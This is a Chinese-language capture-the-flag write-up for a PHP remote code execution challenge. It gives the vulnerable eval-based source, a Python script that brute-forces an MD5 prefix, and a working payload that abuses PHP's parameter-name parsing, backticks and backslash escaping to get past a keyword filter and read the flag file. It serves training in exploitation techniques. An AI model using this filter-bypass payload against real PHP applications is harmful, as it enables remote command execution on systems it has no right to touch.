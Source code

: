 ### R!C!E!(php参数传递解析特性，MD5爆破，反引号命令执行)

源码

```php
 <?php
highlight_file(__FILE__);
if(isset($_POST['password'])&&isset($_POST['e_v.a.l'])){
    $password=md5($_POST['password']);
    $code=$_POST['e_v.a.l'];
    if(substr($password,0,6)==="c4d038"){
        if(!preg_match("/flag|system|pass|cat|ls/i",$code)){
            eval($code);
        }
    }
} 
1234567891011
```

分析一下，第一个if语句判断条件为上传的password参数的MD5值前六位为c4d038；第二个if语句是PHP变量名解析特性和简单的命令执行过滤
 首先利用脚本爆破出该数

```php
import hashlib

prefix = "c4d038"  # 目标MD5值的前六位
prefix_bytes = prefix.encode()  # 将前缀转换为字节串

for i in range(100000000):
    b = i.to_bytes(22, 'big')
    m = hashlib.md5(str(i).encode()).hexdigest()
    
    if m.startswith(prefix):
        print(i)
        print(m)
        break
```

爆出来为114514
 然后是利用php的解析特性，`[`会被解析成下划线`_`；当用"["来解析为" _ "后 后面的"."是不会被转成"_"的 (当知识点记住得了)，和反引号去绕过对system函数的过滤，反斜杠绕过flag，tac替换cat命令
 payload

```
password=114514&e[v.a.l=echo `tac /fla\g`;
1
```

得到flag
 ![在这里插入图片描述](assets/ded18d369d60429f9fbeba7e070284f2.png)
